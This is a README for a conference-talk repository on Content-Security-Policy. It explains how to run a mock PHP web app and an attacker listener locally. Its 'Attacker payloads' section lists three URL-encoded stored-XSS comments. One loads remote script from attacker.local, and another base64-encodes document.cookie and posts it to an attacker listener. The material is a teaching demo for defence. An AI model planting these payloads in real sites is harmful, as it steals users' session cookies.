

# Research on Content-Security-Policy

## Introduction

💬 This folder contains all my work for the presentation about Content-Security-Policy (CSP) given at the [VOXXED LU 2024](https://mobile.devoxx.com/events/voxxedlu24/talks/2213/details) conference..

💻 [VSCode](https://code.visualstudio.com/) was used as main [IDE](https://en.wikipedia.org/wiki/Integrated_development_environment).

💻 A distribution of [Chromium](https://chromium.woolyss.com/download/en/) for Windows was used to work on this research. It was stored in a folder, named **chromium**, located at the root of the project folder (added to [git ignore file](.gitignore)).

## Content

* 📄 Files:
  * [code.code-workspace](code.code-workspace): VScode workspace descriptor.
  * [pitch.docx](pitch.docx): Contains the synopsis, in french, of the presentation.
  * [presentation.pptx](presentation.pptx): Contains the presentation.
  * [presentation-schemas.md](presentation-schemas.md): Contains the schemas used into presentation created using [mermaid](https://mermaid.js.org/).
  * [scratchpad.md](scratchpad.md): Contains all the technical notes and information gathered during the work on the presentation and related technical research.
* 📂 Folders:
  * [app](app/): Contains the mock web application with the XSS used for the context of the presentation.
  * [attacker](attacker/): Contains the web listeners and payloads used to exploit the XSS as the attacker.
  * [exports](exports/): Contains different formats of the presentation.  
  * [sources](sources/): Contains the original files of different elements used.

## Run the app

📑 **Step 1** - Add these entries to your **hosts** file:

```text
127.0.0.1 attacker.local
127.0.0.1 righettod.local
```

 👨‍💻 **Step 2** - Run the following command, from the **attacker** folder:

```powershell
PS> php -S localhost:9000
PHP 7.3.4 Development Server started 
Listening on http://0.0.0.0:9000
```

👨‍💻 **Step 3** - Run the following command, from the **app** folder:

```powershell
PS> php -S localhost:8000
PHP 7.3.4 Development Server started 
Listening on http://0.0.0.0:8000
```

🌏 Then, browse on <http://localhost:8000> to access the sample app.

## Attacker payloads

😈 This is the content to add into the file [comments.json](app/store/comments.json) of the app to simulate the differents stored XSS performed by the attacker:

```json
[
    {
        "userName": "remote payload",
        "userEmail": "dom@attacker.lu",
        "userComment": "%3Cimg+src%3D%27x%27+onerror%3D%27%24.getScript%28%5C%22%2F%2Fattacker.local%3A9000%2Fpayload.js%5C%22%29%27%3E"
    },
    {
        "userName": "embedded payload v1",
        "userEmail": "dom@attacker.lu",
        "userComment": "%3Cimg%20src%3D%27x%27%20onerror%3D%27fetch%28%5C%22%2Fapi%2Ephp%3Fsource%3Dxss%5C%22%29%3Balert%28%5C%22Evil%20code%20loaded%20%3A%29%5C%22%29%3B%27%3E"
    },
    {
        "userName": "embedded payload v2",
        "userEmail": "dom@attacker.lu",
        "userComment": "%3Cimg%20src%3D%27x%27%20onerror%3D%27let%20cke%3Dbtoa%28document%2Ecookie%29%3Blet%20bdy%3Ddocument%2EgetElementsByTagName%28%5C%22body%5C%22%29%5B0%5D%3Blet%20frm%3Ddocument%2EcreateElement%28%5C%22form%5C%22%29%3Bfrm%2EsetAttribute%28%5C%22method%5C%22%2C%5C%22post%5C%22%29%3Bfrm%2EsetAttribute%28%5C%22action%5C%22%2C%5C%22%2F%2Fattacker%2Elocal%3A9000%2Flistener%2Ephp%5C%22%29%3Blet%20prm%3Ddocument%2EcreateElement%28%5C%22input%5C%22%29%3Bprm%2EsetAttribute%28%5C%22type%5C%22%2C%5C%22hidden%5C%22%29%3Bprm%2EsetAttribute%28%5C%22name%5C%22%2C%5C%22data%5C%22%29%3Bprm%2EsetAttribute%28%5C%22value%5C%22%2Ccke%29%3Bfrm%2EappendChild%28prm%29%3Bbdy%2EappendChild%28frm%29%3Bfrm%2Esubmit%28%29%3B%27%3E"
    }
]
```

## References

* [Base of the mock web app](https://themewagon.com/themes/fruitables-free/).
* [PHP download for Windows](https://windows.php.net/download#php-8.3).
* [Chromium download](https://chromium.woolyss.com/download/en/).
* [Mozilla web security guidelines](https://infosec.mozilla.org/guidelines/web_security).

# License

<a rel="license" href="http://creativecommons.org/licenses/by-sa/4.0/"></a><br />Presentation and all the content of this repository are licensed under a <a rel="license" href="http://creativecommons.org/licenses/by-sa/4.0/">Creative Commons Attribution-ShareAlike 4.0 International License</a>.

# Misc


